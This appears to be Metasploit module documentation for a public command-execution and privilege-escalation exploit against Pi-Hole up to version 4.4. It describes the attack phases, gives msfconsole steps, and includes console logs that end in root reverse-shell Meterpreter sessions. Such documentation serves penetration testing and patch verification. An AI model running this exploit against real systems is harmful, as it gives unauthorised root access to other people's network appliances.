 ## Vulnerable Application

This exploits a command execution in Pi-Hole <= 4.4.  A new blocklist is added, and then an
update is forced (gravity) to pull in the blocklist content.  PHP content is then written
to a file within the webroot.

Phase 1 writes a sudo pihole command to launch teleporter, effectively running a priv esc.

Phase 2 writes our payload to `teleporter.php`, overwriting, the content.

Lastly, the phase 1 PHP file is called in the web root, which launches
our payload in `teleporter.php` with root privileges.

A more detailed writeup is available from the [original author](https://frichetten.com/blog/cve-2020-11108-pihole-rce/).

Due to encodings, a local web server is required to be running on port `80`.

Two blocklist is left within Pi-Hole and should be removed.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_blocklist_exec```
  4. Do: ```set srvhost [IP]```
  5. Do: ```set rhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 4.3.2 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.3.2
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=45abdcp4rsc9bpi9tchi88ejnn;
  [*] Using token: WzmrFbksWxIbtuSVeyrf8yv9o541UdhueLN+BRXfUmY=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:57982) at 2020-05-12 22:30:38 -0400
  [+] Deleted cdJWzln.php
  [*] Server stopped.
  
  msf exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64
  Meterpreter : php/linux
  ```

### Pi-Hole 4.4 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.4
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=uee4gcfsjk5m8289m4uk4rv1du;
  [*] Using token: uO4ha1e0fy+Qwvoq14XgslT3Z+VJ/h2RR3qyVT6dPz8=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:48636) at 2020-05-13 20:34:33 -0400
  [+] Deleted VRwxqyhs.php
  
  msf exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-99-generic #100-Ubuntu SMP Wed Apr 22 20:32:56 UTC 2020 x86_64
  Meterpreter : php/linux
  meterpreter > 
  [*] Blocklists must be removed manually from /admin/settings.php?tab=blocklists
  [*] Server stopped.
  ```
